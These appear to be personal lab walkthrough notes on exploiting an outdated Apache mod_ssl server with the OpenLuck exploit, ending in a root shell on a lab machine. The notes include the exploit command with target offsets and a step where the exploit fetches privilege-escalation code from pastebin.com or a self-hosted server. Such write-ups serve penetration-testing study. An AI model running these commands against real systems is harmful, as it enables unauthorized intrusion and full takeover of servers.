 ## Exploiting mod_ssl

From the vuln reasearch in chapter 05-06 we found:
https://github.com/heltonWernik/OpenLuck

Download and compile OpenLuck as described in the git repo.
When we run the compiled executable we get the following usage output:
![[Pasted image 20240306081031.png]]

From Nmap scan:
`443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4`

Therefore we are gonna use the offset 0x6a:
![[Pasted image 20240306081226.png]]

Exploit:
```bash
./OpenFuck 0x6a 10.0.0.10
```

The exploit with 0x6a didn't work, but the one with 0x6b did. We got a shell as the user *apache*:
![[Pasted image 20240306081555.png]]

From the output we can see that the exploit couldn't reach out to the host **pastebin.com**.
It would load the following exploit code, which would escalate the privileges and give us a root shell.
![[Pasted image 20240306082110.png]]

Since the box we attack doesn't have internet connection, we need to host this exploit ourself, change the exploit source code and recompile it.

Download the file:
```bash
curl https://pastebin.com/raw/C7v25Xr9 -o privesc.c
```
And serve it via http:
![[Pasted image 20240306082450.png]]

In the exploit we change the following line:
![[Pasted image 20240306082740.png]]
Afterwards recompile the binary.

We can see that the exploit on the victim machine pulls the privesc.c file:
![[Pasted image 20240306082843.png]]

And... we got us a root shell :)
![[Pasted image 20240306082947.png]]
(Btw the arg `-c 40` is not needed)